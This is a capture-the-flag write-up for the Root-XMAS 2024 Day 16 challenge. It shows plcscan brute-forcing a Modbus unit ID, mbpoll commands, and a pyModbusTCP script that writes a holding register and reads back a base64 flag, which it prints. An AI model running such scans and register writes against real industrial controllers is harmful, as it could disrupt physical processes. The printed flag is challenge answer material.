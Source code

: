 ```yaml
---
title: Root-XMAS 2024 Day 16 - Coil under the tree
feed: hide
permalink: /RootXMAS_2024_16
date: 16-12-2024
summary: Please put me in PLC
---
```


### summary

Industrial PLC id bruteforcing and communication. Not hard if you know about the domain! (I did not)
### recon

A challenge on a PLC!  (Programmable Logic Controller)! 
I followed the [LeHack 2024 conference on Industrial hacking by biero](https://www.youtube.com/watch?v=2d_Snz2lOO4&list=PLzGIjwtabBqh3sF_8xIrvRqdGnzBgXD-h&index=10) and his workshop, but I didn't remembered anything about it... And it didn't matter, as it was focused on Siemens devices, when this chall wasn't! Still, I wanted to give a shoutout to this nice talk!

Still, it's a subject I don't know at all, so sorry if I am approximative in my write-up.
### solution

The challenge gives us pretty precise instruction, we simply need to put them in action.
It tells us : "Scan and find a valid slave ID". When we don't know what to do, let's check what tools we have at disposition.

```bash
pacman -Ss plc
	...
	blackarch/plcscan 0.1-4
    This is a tool written in Python that will scan for 
    PLC devices over s7comm or modbus protocols.
```

Looks good enough for me. Let's launch it.

```bash
plcscan 163.172.68.42 --ports=10016 --brute-uid
	Scan start...                          
	163.172.68.42:10016 Modbus/TCP
	...
	Unit ID: 104
	    Device info error: GATEWAY TARGET DEVICE FAILED TO RESPOND
	  Unit ID: 105
	    Device: Root-Me Corp. PLC-RM001 1.0.0
	...

```

We have the slave ID, it's 105! Now what do?
It's easy to miss, the scanner tells us at the beginning that the device communicates with [Modbus](https://fr.wikipedia.org/wiki/Modbus) 

We only need to write one byte at a specific *holding* register, then read the *input* registers.
Searching online, we have multiple ways to send and receive data with modbus.

- The [mbpoll](https://manpages.ubuntu.com/manpages/lunar/man1/mbpoll.1.html) command line tool 

```bash
mbpoll 163.172.68.42 0xff -p 10016 -a 105 -r 0x10 && \
mbpoll 163.172.68.42 -p 10016 -a 105 -r 1 -c 125 -1 -t 3:string

	-- Polling slave 105...
	[1]: 	Q
	[2]: 	2
	...
	[106]: 	Q
	[107]: 	=
	[108]: 	=
```

We get an intersting base64 output! but the tool does not provide a more standard output format, so we will have to clean it ourself... nah, let's just switch to a python library!

- the [pyModbusTCP](https://pypi.org/project/pyModbusTCP/) python library

The library is pretty simple and well documented, 

```python
from pyModbusTCP.client import ModbusClient
from time import sleep
from base64 import b64decode

c = ModbusClient(host="163.172.68.42", port=10016, unit_id=105, auto_open=True)
c.write_single_register(0x10, 0xff)

res_list = c.read_input_registers(0, 125)
res_str = "".join([chr(x) for x in res_list])
res_dec = b64decode(res_str).decode(errors='ignore')

print(res_list, res_str, res_dec, sep="\n")
```

```bash
[81, 50, 57, ..., 81, 61, 61, 0, 0 ...]
Q29u...ViNjJ9XG4nXQ==
Congratulations, you can validate this challenge with:
['RM{13ad1bc2e25b62}\n']
```


> [!error] warning!
> You have to read at the input register at index *0* , other indexes also contain base64 strings, but with random data. if you chose index *1* you would get lost in a false lead!

| Previous day | [[Day 15 - New new .. always new]] |
| ------------ | ---------------------------------- |
| Next day     | [[Day 17 - Ghost in the shell]]    |